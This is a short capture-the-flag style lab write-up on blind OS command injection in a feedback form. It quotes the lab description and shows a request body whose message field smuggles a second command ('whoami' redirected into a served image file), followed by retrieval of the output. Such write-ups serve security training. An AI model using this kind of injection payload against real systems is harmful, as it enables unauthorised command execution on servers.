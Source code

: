 # Lab: Blind OS command injection with output redirection

>This lab contains a blind OS command injection vulnerability in the feedback function.

>The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

>/var/www/images/

>The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

>To solve the lab, execute the whoami command and retrieve the output.


### Vulnerable area
`POST /feedback/submit`

### Redirecting output
We are told that we can write to `/var/www/images`, we can do this with the redirect operator `>`. We can then read the output by navigating to that file. I will try to write and read to `image?filename=7.jpg`

### Exploit
Modified the request body of the vulnerable area to the following:

<pre>csrf=DFWIAowwJt6vpLCyaD3niQRxCVPFBaMX&name=niko&email=niko%40mail.com&subject=mad&message=mad;`whoami >7.jpg`</pre>

Use command separator `;` to execute whoami and then overwrote `7.jpg` to contain the output of the `whoami` command

Now open the image and see the response `GET /image?filename=7.jpg HTTP/1.1`

Response is `peter-9HX3hb`

Lab solved!